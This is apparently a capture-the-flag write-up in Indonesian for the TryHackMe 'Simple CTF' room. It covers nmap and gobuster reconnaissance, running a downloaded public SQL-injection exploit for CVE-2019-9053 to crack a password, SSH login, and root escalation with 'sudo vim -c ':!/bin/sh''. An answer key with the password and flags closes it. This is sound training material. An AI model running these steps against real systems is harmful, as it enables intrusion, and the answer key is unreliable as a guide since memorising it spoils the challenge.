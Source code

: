 # CTF - Simple CTF
- TryHackMe Challenge: https://tryhackme.com/room/easyctf
- IP Machine: 10.10.128.226

## Port Scanning
- Scan menggunakan tool nmap dengan perintah: `nmap -sC -sV <IP Machine>`
```sh
┌──(root㉿kali)-[/home/kali]
└─# nmap -sC -sV 10.10.128.226   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-06 20:21 EDT
Nmap scan report for 10.10.128.226
Host is up (0.21s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.142.62
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 294269149ecad917988c27723acda923 (RSA)
|   256 9bd165075108006198de95ed3ae3811c (ECDSA)
|_  256 12651b61cf4de575fef4e8d46e102af6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.37 seconds
```

- Buka halaman web `http://<IP_machine>` di browser

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%201.JPG)

## Gobuster
- Cari directory web menggunakan tool gobuster dengan perintah `gobuster dir -u http://<IP_Machine> -w <wordlists>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%202.JPG)

## Gain Access
- Dari hasil tool gobuster ditemukan halaman **/simple** buka halaman tersebut di browser dengan url `http://<IP_Machine>/simple`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%203.JPG)

- Di halaman tersebut terdapat informasi bahwa halaman tersebut dibuat dengan CMS Made Simple versi 2.2.8

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%204.JPG)

- Cari exploit CMS tersebut di google

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%205.JPG)

- Di web https://www.exploit-db.com/exploits/46635 terdapat informasi bahwa celah keamanan CMS tersebut adalah SQL Injection (SQLi)

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%206.JPG)

- Kita bisa mendownload script exploit di https://www.exploit-db.com/exploits/46635 untuk python versi 3 kita bisa mendownload script di https://github.com/e-renna/CVE-2019-9053 menggunakan wget
```sh
wget https://raw.githubusercontent.com/e-renna/CVE-2019-9053/master/exploit.py
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%207.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%208.JPG)

- Jalankan program exploit.py dengan perintah sebagai berikut:
```sh
python3 exploit.py -u http://<IP_Machine>/simple --crack -w /usr/share/seclists/Passwords/Common-Credentials/best110.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%209.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%2010.JPG)

- Proses exploit berhasil, sekarang kita bisa menggunakan username dan password tersebut untuk mengakses SSH dengan perintah `ssh mitch@IP_Machine -p 2222`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%2011.JPG)

- Setelah berhasil login, disana terdapat file **user.txt** yang berisi user flag. Baca isi dengan perintah `cat user.txt`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%2012.JPG)

- Pada directory home, selain ditemukan directory **mitch** juga ditemukan directory **sunbath**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%2013.JPG)


## Privilege Escalation
- Gunakan perintah `sudo -l` untuk melihat perintah yang bisa dijalankan tanpa akses root. Disini kita dapat menjalankan **vim** dengan perintah **sudo**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%2014.JPG)

- Kita bisa memanfaatkan script di https://gtfobins.github.io/gtfobins/vim/ untuk mendapatkan akses root melalui vim

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%2015.JPG)

- Jalankan script diatas untuk mendapatkan akses root
```sh
sudo vim -c ':!/bin/sh'
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%2016.JPG)

- Sekarang kita tinggal membaca file root.txt sebagai root flag dengan perintah `cat /root/root.txt`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Simple%20CTF/assets/sc%2017.JPG)


## Pertanyaan dan Jawaban:

- **Pertanyaan:** How many services are running under port 1000?
```sh
2
```

- **Pertanyaan:** What is running on the higher port?
```sh
SSH
```

- **Pertanyaan:** What's the CVE you're using against the application?
```sh
CVE-2019-9053
```

- **Pertanyaan:** To what kind of vulnerability is the application vulnerable?
```sh
SQLi
```

- **Pertanyaan:** What's the password?
```sh
secret
```

- **Pertanyaan:** Where can you login with the details obtained?
```sh
SSH
```

- **Pertanyaan:** What's the user flag?
```sh
G00d j0b, keep up!
```

- **Pertanyaan:** Is there any other user in the home directory? What's its name?
```sh
sunbatch
```

- **Pertanyaan:** What can you leverage to spawn a privileged shell?
```sh
vim
```

- **Pertanyaan:** What's the root flag?
```sh
W3ll d0n3. You made it!
```